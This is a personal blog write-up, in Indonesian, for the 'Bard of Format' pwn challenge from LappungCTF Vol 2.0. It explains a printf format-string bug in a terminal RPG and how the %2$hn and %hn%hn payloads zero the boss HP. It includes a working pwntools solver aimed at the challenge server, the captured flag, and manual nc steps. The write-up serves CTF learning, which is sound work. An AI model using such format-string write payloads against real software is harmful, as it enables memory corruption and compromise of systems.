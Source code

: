 ```yaml
---
title: "LappungCTF Vol 2.0 - Bard of Format RPG (PWN)"
date: "2025-10-28"
tags: ["pwn", "ctf", "format-string", "writeup", "lappungctf"]
summary: "Write-up LappungCTF Vol 2.0 - Bard of Format RPG "
image: "/blog/LappungCTFVol2.0-BardofFormatRPG/thumb.png"
author: "Erwin Wijaya"
draft: false
featured: true
---
```


## Pendahuluan

Ini write-up saya untuk challenge **Bard of Format** dari LappungCTF. Challenge ini adalah game RPG terminal kecil di mana kita lawan dua boss: **Golem** dulu, lalu **Dragon**. Menu utamanya ada: *Attack*, *Guard*, *Skill (Bard Song)*, *Heal*, dan *Quit*. Tujuan saya: dapatin `flag.txt`.

Setelah ngulik binary (decompile pake Ghidra/IDA), sata menemukan bahwa input yang diketik pas memilih *Bard Song* langsung dipakai sebagai **format string** ke `printf()` tanpa proteksi — alias format-string vulnerability. Karena program juga ngirim pointer yang mengarah ke field HP boss sebagai argumen variadik `printf`, kita bisa pake `%hn` untuk nulis 0 ke alamat HP dan langsung nge-zero HP boss. Simpel dan elegan.

---

## Ringkasan exploit (satu kalimat)
Charge Bard Song dengan dua kali `Guard`, lalu kirim format string yang menulis `0` ke alamat HP boss: `%2$hn` buat Golem, dan `%hn%hn` buat Dragon — setelah HP jadi 0, program buka `flag.txt` dan cetak flag.

---

## Bagian teknis (apa yang saya lihat di reversing)

Saya decompile biner dan menemukan panggilan `printf` berbeda tergantung fase:

- **Fase Golem** (fase 1) memanggil:
```c
printf(local_238, 0, puVar8);
```
Jadi variadik argumen adalah `0` (argumen pertama) dan `puVar8` (argumen kedua) — `puVar8` ini menunjuk ke struktur boss, dimana offset pertama adalah HP boss. Karena argumen ke-2 adalah pointer ke HP, kita bisa merujuk ke `2$` di format string. Mengirim `%2$hn` akan menulis 2 byte (low 16-bit) bernilai jumlah karakter yang sudah dicetak hingga titik itu. Karena kita tidak mencetak apa-apa sebelum itu, jumlah karakter = 0 → `%2$hn` menulis 0 ke low-16bit HP. Karena HP Golem = 150 (< 65536), menulis low-16bit ke 0 menyebabkan HP = 0.

- **Fase Dragon** (fase 2) memanggil:
```c
printf(local_238, (char*)puVar8 + 2, puVar8);
```
Sekarang ada dua pointer: satu menunjuk ke `puVar8 + 2` (upper halfword), dan satu ke `puVar8` (lower halfword). Dengan mengirim payload seperti `%hn%hn` kita menulis 0 ke alamat pertama (upper half) lalu 0 ke alamat kedua (lower half) sehingga 32-bit HP menjadi 0.

Catatan penting: `Bard Song` hanya bisa dipakai setelah pemain **survive two full turns** — artinya kita harus menahan serangan boss dua kali; praktisnya `Guard` dua kali sudah cukup.

---

## Kenapa `%hn` bukan `%n`?
- `%n` menulis ukuran `int`/`long` tergantung platform (4/8 byte). `%hn` menulis 2 byte (16-bit). Karena program memberikan pointer ke halfword (atau kita hanya butuh mengubah low/high 16-bit saja), `%hn` adalah yang tepat dan lebih aman untuk manipulasi halfword.
- Kita menulis `0`, jadi nggak perlu padding rumit. Kalau mau nulis nilai lain, kita biasanya pakai padding: `"%1234x%2$hn"` untuk menulis 1234 ke alamat.

---

## Script otomatis (PoC) — `solver.py`
Ini yang saya pake dan berhasil. Pastikan terinstal `pwntools`.

```python
#!/usr/bin/env python3
from pwn import *

HOST = "43.157.205.115"
PORT = 9006

def charge_skill(io):
    # Lakukan Guard dua kali supaya Bard Song siap
    for _ in range(2):
        io.recvuntil(b"> ")
        io.sendline(b"2")  # Guard

def bard(io, payload: bytes):
    io.recvuntil(b"> ")
    io.sendline(b"3")   # Skill (Bard Song)
    io.recvuntil(b"Bard Song:")
    io.sendline(payload)

def main():
    context.log_level = "info"
    io = remote(HOST, PORT)

    # Phase 1: kill Golem
    charge_skill(io)
    bard(io, b"%2$hn")   # tulis 0 ke low-16bit HP

    # Phase 2: kill Dragon
    charge_skill(io)
    bard(io, b"%hn%hn")  # nulis 0 ke upper lalu lower half -> HP = 0

    data = io.recvall(timeout=5)
    print(data.decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

Jalankan:
```bash
pip install pwntools
python3 solver.py
```

Output yang saya dapatkan ketika menjalankan solver:
```
(ctfenv) Deb@Rommel:~/CaptureTheFlag/lappung/pwn/bard$ python3 solver.py
[+] Opening connection to 43.157.205.115 on port 9006: Done
[+] Receiving all data: Done (372B)
[*] Closed connection to 43.157.205.115 port 9006
 ♪ The echoes of your song ripple across the battlefield.

╔══════════════════════════╗
║   👑 The boss collapses! ║
║     You are victorious.  ║
╚══════════════════════════╝
FLAG: LappungCTF{a_b4rd_s0n9_L0v3_rPg_b4ttL3_with_m3loDy_f0rm4t_stRr1nG}
```

---

## Langkah manual (kalau mau pake `nc`)

1. `nc 43.157.205.115 9006`
2. Saat muncul prompt `> `: ketik `2` lalu Enter (Guard). Ulangi sekali lagi jadi total dua Guard.
3. Setelah itu ketik `3` lalu Enter (Skill).
4. Saat muncul `Bard Song:`, ketik `%2$hn` lalu Enter — Golem akan langsung mati / berganti ke Dragon.
5. Ulangi langkah 2–4 untuk Dragon, tetapi pada step 4 kirim `%hn%hn`.
6. Kalau semuanya sukses, flag bakal tercetak.

---

## Penjelasan langkah demi langkah (apa yang terjadi di memory)

- Program meletakkan beberapa argumen ke stack saat memanggil `printf`.
- Di fase Golem argumen terlihat seperti: `printf(fmt, 0, boss_ptr)`. Ini berarti argumen posisi ke-2 (`%2$...`) adalah alamat boss_ptr.
- `%2$hn` membaca jumlah karakter yang dicetak sejauh ini (0), lalu menulis 2-byte (16-bit) ke alamat `boss_ptr`. Itu men-set bagian bawah dari HP menjadi 0 → cukup untuk mengurangi HP 150 jadi 0.
- Di fase Dragon program sengaja memanggil `printf(fmt, boss_ptr+2, boss_ptr)` — menyediakan dua pointer ke HP (upper dan lower half). Mengirim `%hn%hn` menulis nilai (jumlah printed chars, masih 0) ke kedua alamat berurutan, sehingga seluruh 32-bit HP = 0.
- Setelah HP menjadi 0, game akan membuka `flag.txt` dan mencetak isinya.

---

## Troubleshooting & tips

- Kalau koneksi putus: tambahkan retry di script atau naikkan timeout `io = remote(HOST, PORT, timeout=10)`.
- Jika server punya proteksi rate-limit, jalankan perlahan atau pakai retries.
- Kalau payload lain bekerja (mis. server berbeda arg order), coba eksplorasi positional specifiers: `%1$`, `%2$`, `%3$`, dst. Gunakan `%p` untuk leak stack jika perlu.
- Jangan lupa untuk "survive two full turns" sebelum pakai skill — kalau belum charge, program akan menolak.

---



